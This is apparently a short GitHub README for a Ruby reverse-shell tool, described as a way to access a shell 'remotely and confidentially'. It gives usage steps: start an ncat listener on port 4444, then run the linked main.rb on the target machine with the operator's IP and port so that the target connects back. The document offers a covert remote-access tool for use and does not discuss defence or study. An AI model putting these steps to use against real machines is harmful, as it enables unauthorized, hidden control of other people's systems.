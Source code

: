 # Ruby Reverse shell
reverse shell is the act of accessing a shell remotely and confidentially.

# Mode of use
- open a port using ncat, as an example, I will use port 4444
```
ncat -lvp 4444
```
start the file <a href="https://github.com/brUc3r/revshell_ruby/blob/main/main.rb">main.rb</a> on target machine
with these parameters:

```python
ruby main.rb YOUR IP 4444
```
> you can use ifconfig command to see your IP.

